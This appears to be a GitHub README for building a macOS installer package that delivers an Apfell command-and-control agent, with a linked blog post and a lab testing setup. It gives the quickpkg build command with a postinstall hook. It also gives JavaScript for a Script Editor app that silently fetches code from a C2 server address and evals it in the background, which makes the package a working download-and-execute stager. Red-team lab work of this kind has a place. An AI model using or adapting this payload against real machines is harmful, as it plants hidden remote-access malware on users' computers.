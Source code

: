 # Apfell Payload
Making an Installer package payload with Apfell

[Blog post about it](https://kphongag.blogspot.com/2020/04/testing-with-apfell-javascript-for.html)

**Testing Environment:**  
Ubuntu 18.04.1 running [Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the package payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg because pkgbuild is fickle.  
Run to build pkg:\
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:    
`var app = Application.currentApplication();`\
`app.includeStandardAdditions = true;`\
`app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`
  
  
Notes: 
- Exclude Example folder when building the .pkg
- This can also be done without an application in the postinstall script

